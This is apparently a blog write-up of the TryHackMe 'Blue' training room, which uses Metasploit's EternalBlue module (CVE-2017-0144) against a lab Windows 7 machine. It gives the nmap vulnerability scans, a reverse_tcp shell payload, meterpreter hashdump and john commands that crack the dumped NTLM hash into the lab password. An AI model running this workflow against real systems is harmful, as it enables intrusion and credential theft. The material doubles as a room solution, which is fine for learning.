 ```yaml
---
title: TryHackMe - Easy CTF - Blue
date: '2024-04-22'
tags: ['ctf', 'tryhackme', 'boot2root', 'writeup' , 'windows-exploitation', 'john']
draft: false
summary: Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

---
```


## Solution:

I know it is an old room, but the purpose of writing this write-up is to document my whole journey of learning system exploitation. In this blog, we will learn about **[CVE-2017-0144](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-0144)**

So, let's get started.

As we have been asked to identify the number of open ports below 1000, I will only scan the first 1000 ports:

```bash:nmap-command
sudo nmap -sS -Pn -A -p 1-1000 $IP -oN nmap.log
```

#### Now you may ask why we need `sudo` to do such a scan?

In Nmap, the **`-sS`** option is used to perform a TCP SYN scan. The reason why sudo privileges are often needed to run Nmap with the **`-sS`** option is because SYN scanning involves crafting and sending raw network packets, which requires low-level access to network interfaces. By default, regular users don't have permission to send raw packets, as it can potentially be misused. Therefore, using sudo allows Nmap to run with the necessary privileges to perform the scan effectively.

Scan reveals that we have 3 ports running under 1000:

![Screenshot](/static/writeups/tryhackme/blue/Untitled.png)

We know that `smb` (by default) runs on port `139` or `445`. Plus we can see that its a Windows 7 box running on service pack 1. Going down we can see smb version:

![Screenshot](/static/writeups/tryhackme/blue/Untitled1.png)

A small handy tip, usually if we come across rooms running windows OS under windows 10, it usually indicates that smb (that they are running) is vulnerable.

Based on the gathered information, it is evident that this is indeed an EternalBlue exploit room.

But lets assume, I don’t know if the machine is vulnerable or not. I can use this command to find out:

```bash:nmap-command
sudo nmap -sS -Pn -p 445 --script smb-vuln-* $IP
```

This command will tell me to which smb CVE it is vulnerable to. 

![Screenshot](/static/writeups/tryhackme/blue/Untitled2.png)

![Screenshot](/static/writeups/tryhackme/blue/Untitled4.png)

Let’s move toward exploitation phase. Start metasploit:

![Screenshot](/static/writeups/tryhackme/blue/Untitled5.png)

Search for **`eternalblue`** exploit:

![Screenshot](/static/writeups/tryhackme/blue/Untitled6.png)

We will use **`exploit/windows/smb/ms17_010_eternalblue`** get a remote code execution

![Screenshot](/static/writeups/tryhackme/blue/Untitled7.png)

Now search for options and set the one required value (which is RHOSTS) to machine’s IP address:

![Screenshot](/static/writeups/tryhackme/blue/Untitled8.png)

![Screenshot](/static/writeups/tryhackme/blue/Untitled9.png)

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

**`set payload windows/x64/shell/reverse_tcp`**

![Screenshot](/static/writeups/tryhackme/blue/Untitled10.png)

With that done, run the exploit!

![Screenshot](/static/writeups/tryhackme/blue/Untitled11.png)

We got the access:

![Screenshot](/static/writeups/tryhackme/blue/Untitled12.png)

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (**CTRL + Z**). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

If the issue persists, try switching the port number using the `set LPORT` option.

Moving on, now we will convert a shell to meterpreter shell. For that search `shell_to_meterpreter` in msfconsole:

![Screenshot](/static/writeups/tryhackme/blue/Untitled13.png)

We will use this script `post/multi/manage/shell_to_meterpreter`

Now search for options and set the one required value (which is SESSION) to session ID which in our case is 1 and run it:

![Screenshot](/static/writeups/tryhackme/blue/Untitled14.png)

Congrats, we have successfully upgraded our shell to a meterpreter shell:

![Screenshot](/static/writeups/tryhackme/blue/Untitled15.png)

To enter into the shell type:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
```

Now to verify that we have indeed escalated to `NT AUTHORITY\SYSTEM`, run `shell` command followed by `whoami` command:

![Screenshot](/static/writeups/tryhackme/blue/Untitled16.png)

Running `ps` command (because it is mentioned in the room to do so):

![Screenshot](/static/writeups/tryhackme/blue/Untitled17.png)

Now to migrate to a process simply type migrate and the process ID:

```
meterpreter > migrate 2480
```

In my case, it is not migrating to any process maybe because we are already nt authority\system:

![Screenshot](/static/writeups/tryhackme/blue/Untitled18.png)

Anyways let’s continue. 

Within our elevated meterpreter shell, run the command `hashdump`. This will dump all of the passwords on the machine as long as we have the correct privileges to do so:

![Screenshot](/static/writeups/tryhackme/blue/Untitled19.png)

The name of the none default user is `jon` as administrator and guest account is created by default.

Its time to crack password the password for `jon`. Save the hash of john into a file:

```bash:terminal
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hash.txt
```

To crack it, I will use `john` but you can use hashcat too:

```bash:john-command
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Screenshot](/static/writeups/tryhackme/blue/Untitled20.png)

Password is `alqfna22`

Now, its time to find flags.

### Flag 1:

![Screenshot](/static/writeups/tryhackme/blue/Untitled21.png)

![Screenshot](/static/writeups/tryhackme/blue/Untitled22.png)

### Flag 2:

![Screenshot](/static/writeups/tryhackme/blue/Untitled23.png)

![Screenshot](/static/writeups/tryhackme/blue/Untitled24.png)

### Flag 3:

![Screenshot](/static/writeups/tryhackme/blue/Untitled25.png)

![Screenshot](/static/writeups/tryhackme/blue/Untitled26.png)